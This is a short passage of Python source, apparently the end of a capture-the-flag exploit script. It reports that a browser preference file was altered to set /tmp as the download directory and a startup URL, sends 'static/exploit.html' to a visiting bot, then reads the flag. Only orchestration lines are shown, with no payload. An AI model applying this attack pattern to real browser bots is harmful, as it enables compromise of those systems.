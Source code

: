 ```python
                       content2)
    print("[*] changed the preference file for download directory as /tmp and {} as startup url")
    reporting_the_url(HOST+"static/exploit.html")
    print("[*] bot visiting the payload")
    time.sleep(8)
    reading_flag()
```
